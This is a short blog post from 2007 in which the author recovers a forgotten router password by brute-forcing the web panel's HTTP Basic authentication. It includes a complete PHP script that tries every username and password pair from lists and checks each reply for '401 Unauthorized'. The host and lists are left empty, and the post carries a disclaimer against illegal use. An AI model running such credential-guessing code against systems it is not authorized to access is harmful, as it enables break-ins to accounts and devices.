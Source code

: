 +++
title = "Hacking into my router by brute-forcing http authentication"
date = "2007-11-28T22:11:51-04:00"
tags = ["php"]
+++
<p>I forgot the username and password to access the web panel of my router.<br />

Luckily I knew some possible usernames and some patterns that I could have used to construct my password, so I just had to try all the combinations... Too much work to do manually but easily done when scripted.</p>

<p>Here is the php script that I came up with.  (obviously stripped of my personal stuff).  It got my account in less then a second :)<!--more--></p>

<p><strong>DISCLAIMER</strong>:  Don't use this code for anything illegal!  I'm not responsible for what you do with this!</p>

{{< highlight "php" "style=default" >}}<![CDATA[

<?php

$host = '';

$port = '';

$url = '/';

$users = array();

$passes = array();

tryme($host,$url,$port);

foreach($users as $user) {

   foreach($passes as $pass) {

      tryme($host,$url,$port,$user,$pass);

   }

}



function tryme($host,$url = '/',$port = 80, $user = null,$pass =null ) {

   $result="FAIL";

   if(tryAccess($host,$url,$port, $user,$pass)) $result="SUCCESS";

   if($user && $pass) $userpass = "user $user pass $pass ";

   else $userpass = " without username & password";

   echo("Tried $userpass > $result\n");

}



function tryAccess($host,$url = '/',$port = 80, $user = null,$pass =null)  {

   $fp = @fsockopen ($host, $port, &$errno, &$errdesc);

   if (!is_resource ($fp)) {

      echo("Could't not open socket to server: $errno - $errdesc\n");

      return false;

   }

   @fputs ($fp, "POST $url HTTP/1.1\r\n");

   @fputs ($fp, "Host: $host\r\n");

   @fputs ($fp, "Connection: close\r\n");

   if($user && $pass) {

      @fputs ($fp, "Authorization: Basic " . base64_encode ("$user:$pass") . "\r\n");

   }

   @fputs($fp,"\r\n");

        

   $reply = '';

   $success = true;

   while (!@feof ($fp)) {

      $line = @fgets ($fp, 1024);

      if(strpos($line,'401 Unauthorized')) $success = false;

      $reply .= $line; 

   }

   @fclose ($fp);

   return $success;

}

?>

]]>{{< /highlight >}}
